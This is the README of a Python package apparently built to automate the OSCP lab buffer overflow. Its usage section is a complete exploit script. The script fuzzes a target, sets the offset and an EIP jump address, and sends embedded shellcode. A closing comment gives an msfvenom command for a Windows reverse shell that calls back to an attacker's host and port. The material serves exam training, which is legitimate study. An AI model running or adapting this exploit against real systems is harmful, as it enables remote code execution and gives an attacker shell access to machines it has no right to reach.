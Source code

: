 # Ezbuff
Ezbuff is a Python package created to make the **2020 PWK buffer overflow** easier to perform and understand. I created this package because I am aware of the number of people who lose a lot of time during their **OSCP** exams because of the buffer overflow box and thought this would assist the process. Ezbuff does not perform the buffer overflow for you, it simply automates a lot of the procedures that need to be executed to accomplish a successful buffer overflow attack. Therefore, the manual labor like determining the actual number of bytes to send to crash the vulnerable application, filtering bad characters from registers, and payload generation are all left to the user.

## Installation
```python
pip3 install ezbuff
```

## Usage
```python
#!/usr/bin/env python3

from ezbuff.src.overflow import Overflow

def main():
	# Instanstantiate `Overflow` object
	obj = Overflow("192.168.230.10", 80, max_fuzz_bytes=2000)

	# Change the target IP if running in interactive Python interpreter
	obj.targ_ip = "127.0.0.1"

	# Change the target port number if running objs in interactive Python interpreter
	obj.targ_port = 443

	# The number of seconds to wait in between the fuzzing process,
	# default = 10
	obj.fuzz_interval_seconds = 1

	# Set the increment of the fuzzer to be 150 as opposed to
	# the default of 100
	obj.fuzz_increment = 150

	# Fuzz the vulnerable application
	obj.fuzz()

	# Sets the number of bytes to crash the application.
	# Make sure to accomodate space for reverse shell!!
	obj.num_bytes_crash = 1500

	# Set the offset after running the functions to find offset value
	obj.offset = 780

	# Add bad characters to objects list containing bad characters found
	# after sending characters payload.
	obj.add_bad_char("\x0a", "\x0d", "\x25", "\x26", "\x2b", "\x3d")

	# Send payload with characters to find bad characters.
	obj.send_bad_chars()

	# Sending pattern to determine offset
	obj.send_pattern()

	# Get offset 
	obj.get_offset("30416B30")

	# Set the memory address to jump to after finding valid memory address
	# containing `jump` instructions set in x86 architecture
	# (must prefix string with b, indicating a byte string)
	obj.jump_eip = b"\x83\x0c\x09\x10"
	obj.test("eip")

	# reverse shell payload
	# (must prefix string with b, indicating a byte string)
	shellcode = (
b"\xbe\x88\xe8\x2f\x51\xdb\xc0\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
b"\x52\x83\xc2\x04\x31\x72\x0e\x03\xfa\xe6\xcd\xa4\x06\x1e\x93"
b"\x47\xf6\xdf\xf4\xce\x13\xee\x34\xb4\x50\x41\x85\xbe\x34\x6e"
b"\x6e\x92\xac\xe5\x02\x3b\xc3\x4e\xa8\x1d\xea\x4f\x81\x5e\x6d"
b"\xcc\xd8\xb2\x4d\xed\x12\xc7\x8c\x2a\x4e\x2a\xdc\xe3\x04\x99"
b"\xf0\x80\x51\x22\x7b\xda\x74\x22\x98\xab\x77\x03\x0f\xa7\x21"
b"\x83\xae\x64\x5a\x8a\xa8\x69\x67\x44\x43\x59\x13\x57\x85\x93"
b"\xdc\xf4\xe8\x1b\x2f\x04\x2d\x9b\xd0\x73\x47\xdf\x6d\x84\x9c"
b"\x9d\xa9\x01\x06\x05\x39\xb1\xe2\xb7\xee\x24\x61\xbb\x5b\x22"
b"\x2d\xd8\x5a\xe7\x46\xe4\xd7\x06\x88\x6c\xa3\x2c\x0c\x34\x77"
b"\x4c\x15\x90\xd6\x71\x45\x7b\x86\xd7\x0e\x96\xd3\x65\x4d\xff"
b"\x10\x44\x6d\xff\x3e\xdf\x1e\xcd\xe1\x4b\x88\x7d\x69\x52\x4f"
b"\x81\x40\x22\xdf\x7c\x6b\x53\xf6\xba\x3f\x03\x60\x6a\x40\xc8"
b"\x70\x93\x95\x5f\x20\x3b\x46\x20\x90\xfb\x36\xc8\xfa\xf3\x69"
b"\xe8\x05\xde\x01\x83\xfc\x89\xed\xfc\x89\xaf\x86\xfe\x75\x20"
b"\x7e\x76\x93\x2a\x90\xde\x0c\xc3\x09\x7b\xc6\x72\xd5\x51\xa3"
b"\xb5\x5d\x56\x54\x7b\x96\x13\x46\xec\x56\x6e\x34\xbb\x69\x44"
b"\x50\x27\xfb\x03\xa0\x2e\xe0\x9b\xf7\x67\xd6\xd5\x9d\x95\x41"
b"\x4c\x83\x67\x17\xb7\x07\xbc\xe4\x36\x86\x31\x50\x1d\x98\x8f"
b"\x59\x19\xcc\x5f\x0c\xf7\xba\x19\xe6\xb9\x14\xf0\x55\x10\xf0"
b"\x85\x95\xa3\x86\x89\xf3\x55\x66\x3b\xaa\x23\x99\xf4\x3a\xa4"
b"\xe2\xe8\xda\x4b\x39\xa9\xeb\x01\x63\x98\x63\xcc\xf6\x98\xe9"
b"\xef\x2d\xde\x17\x6c\xc7\x9f\xe3\x6c\xa2\x9a\xa8\x2a\x5f\xd7"
b"\xa1\xde\x5f\x44\xc1\xca")

	# `get_payload` takes a parameter which is the name of the reverse shell file you created with msfvenom
	# Don't forget to specify a format in c programming language
	obj.send_payload(shellcode)

if __name__ == '__main__':
	main()
	
# Sample payload with Msfvenom: msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=1337 EXITFUNC=
# thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\3d"

# Or use Vengen (https://github.com/binexisHATT/Vengen) to generate payloads with your custom options! 
```
